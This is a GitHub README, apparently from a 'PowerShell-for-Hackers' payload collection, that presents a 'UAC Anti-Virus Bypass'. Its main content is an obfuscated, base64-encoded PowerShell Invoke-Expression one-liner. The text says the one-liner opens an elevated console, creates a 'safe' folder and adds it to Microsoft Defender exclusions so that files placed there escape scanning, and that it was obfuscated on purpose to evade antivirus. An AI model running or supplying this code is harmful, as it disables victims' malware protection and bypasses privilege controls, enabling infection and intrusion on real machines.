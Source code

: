 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# User-Access-Control Anti-Virus Bypass

## Description

A UAC AV bypass 

## The Function

### [FUNCTION-NAME] 

To avoid the Anti-Virus blocking this I had to heavily obfuscate and encode this command (test in a sand box environment need be)
This command will open a powershell console with admin privledges and create a directory called "safe" in the Document folder 
This directory that is created will be added to the Microsoft Defender Exclusions list which makes it ignored by AntiVirus scans 
Any files downloaded or ran from here will be ignored by the anti virus

```
iNVOke-ExpResSion (NEw-oBjECt  SysTem.Io.COmPreSSioN.dEFLaTESTrEaM( [SySTeM.IO.MEmorysTReAm][SYstEm.COnvERT]::frOMBasE64sTrINg('hZBPT8JAFMS/yqbhWsBIvBAOsxVao5UsDURIL/3z2KotbbrFqp/efSUmnvD0drIzvze7o6zKxUI4qZItfIVEyS94gOpxh1WPnZLf8LfItJ1WW18DP0QCWbDeQH6wzpXs2JdqOUUQ4gWcW+KgZYl7A6XkO/OflHxGAGxh91j/cB884KDkmTkHBQ1vio2SM9Yp5A3zbC+7Z8a5AoHtCetbhlhrmWFl+/UXjp0Z/Cn73+Br7JXVS4W0tzrYcv+SOTku77H+Av6e9y6c+Wgd+gunqXtqTUFlOaZPEi6dMjHif3LmLWmR5PYUPHrbOKqPXZ+0FHtlYgyZeFxXOo44Ga8bOsVZXVXJKXfEJBfMFpPjf4jKuIa67vWkTeyd2x21Q9phtMP5Y53bBQ21XG4edUnbuVFJ1AjXiNsBn1NJHV0t6fxWue7922aI/AA='),[sYStem.Io.comPreSsiOn.CoMpREssiOnMode]::DEcomPResS )|fOReaCh{ NEw-oBjECt sYStEm.iO.STrEamrEaDeR( $_ , [syStEM.texT.eNCOdiNG]::AsciI ) }| fOreAch{$_.reAdToENd( )})

```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 
[//]: # (Examples of scripts that have used your function) 
Listed below are payloads that have used one of these functions:

No payloads are currently using this bypass. Some will be soon.


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  [Project Link](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)


<p align="right">(<a href="#top">back to top</a>)</p>
